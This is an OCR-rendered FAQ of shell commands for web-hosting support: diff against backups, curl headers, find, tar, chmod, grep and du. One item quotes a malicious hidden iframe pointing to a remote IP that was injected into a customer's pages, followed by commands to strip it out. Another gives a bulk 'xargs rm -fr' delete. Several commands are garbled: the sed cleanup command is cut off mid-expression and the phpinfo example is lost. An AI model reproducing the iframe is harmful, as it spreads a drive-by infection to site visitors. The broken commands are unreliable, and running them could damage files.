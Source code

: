 diff -q ~/public\_html/ /home/\`whoami\`.weekly/public\_html/
If you want to see what is different about the files in the public\_html folder.diff -y ~/public\_html/ /home/\`whoami\`.daily/public\_html/
diff -y ~/public\_html/ /home/\`whoami\`.weekly/public\_html/
6. How do I see what HTTP header response codes a given URL is returning?Use curl -I (same as curl --head).curl -I www.yourdomain.com
HTTP/1.1 200 OK
curl -I www.yourdomain.com/foo
HTTP/1.1 404 Not Found
curl -I www.yourdomain.com/bar
HTTP/1.1 301 Moved Permanently
7. A website link returns a 404 error clicking form.pdf. It used to work. Is form.pdf still even on the server?Use find to discover the true location of the file, if it exists at all.find ./ -name form.pdf
If they changed the case, this will also find it.find ./ -iname form.pdf
8. I'm restoring a fantastico backup and it tells me to remove all the files in fantastico\_fileslist.txt. How can I do that with one easy command?Use cat with xargs to perform the rm -fr action on each filename specified within.cat fantastico\_fileslist.txt | xargs rm -fr
9. How do I search for a file and I'm not sure about the case?Use find with the -iname flag.find ./ -iname background.jpg
./BackGround.JPG
10. How do I find all \*.ppt files on an account?Use find and escape the wildcard character with a backslash.find ./ -name \\\*.ppt
./presentation.ppt
11. How do I find all .htaccess files on an account?Use find.find ./ -name .htaccess
12. What's the command to create a tarball called backup.tar.gz of directory ./backup/ ?Use tar with the following syntax:tar -zcf backup.tar.gz backup/
13. Pagewizard broke my index.html. Please restore just the main index.html from the daily backup.Use cp to get the file, but backup the file you're replacing first for safety.cd ~/public\_html/
mv index.html index.html.bak
cp /home/\`whoami\`.daily/public\_html/index.html .
14. What's the code for phpinfo?(); ?One way to create the above code is as follows:echo '' phpinfo.php
15. My website tries to infect visitors with a virus. I found the following code at the bottom of my pages that shouldn't be there. How can see which pages are infected? How can I remove this from all my pages?

<iframe style=""></iframe>

Use the find and sed commands to look for and remove the code. This one is easy to screw up, so definitely have a backup.cp -a public\_html/ public\_html.bakfind ./public\_html/ -type f -exec sed -i 's/Alternately, use the find and replace commands to do it.find ./ -name page2.html -exec replace '

<iframe src="http://124.217.252.62/~admin/count.php?o=3" width="0" height="0" frameborder="0" scrolling="no" style=""></iframe>

' '' -- {} \\;See also Virus on site infects visitors.
16. My perl script NMSFormMail.pl returns a 500 Internal Server error. In error logs, I see "file has no execute permission: (/home/atmediad/public\_html/cgi/NMSFormMail.pl)". How do I fix that?Use the chmod command to set 755 permissions.chmod 755 ~/public\_html/cgi/NMSFormMail.pl
17. I copied a php.ini with a high memory\_limit to all folders and still a script gives me a memory error. What else can I do?Use find to search php files for the memory\_limit & max\_memory setting also. Most resource intensivefind ./ -name \\\*.php -exec grep -H memory\_limit {} \\;find ./ -name \\\*.php -exec grep -H max\_memory {} \\;Good - Less resource intensivefind ./ -name \\\*.php | xargs grep "max\_memory"Better - No point in doing a find if grep can do the findfind2perl ./ -name \\\*.php | perl |xargs grep "max\_memory"
grep -r --include=\*.php "max\_memory" .
or if you just want file names use the -l flaggrep -lr --include=\*.php "max\_memory" .Once the culprit is found, you can increase or preferably comment out the line altogether. And for heavens sake, delete all those extra php.ini files.
18. I am in this guys mail directory trying to identify the actual usage size of a particular email account. What is the command to show size? Which subfolders are using the most space?Use du. To summarize the actual usage in human readable form:du -shTo see which folders use what space, sorted by size:du --max-depth=1 | sort -n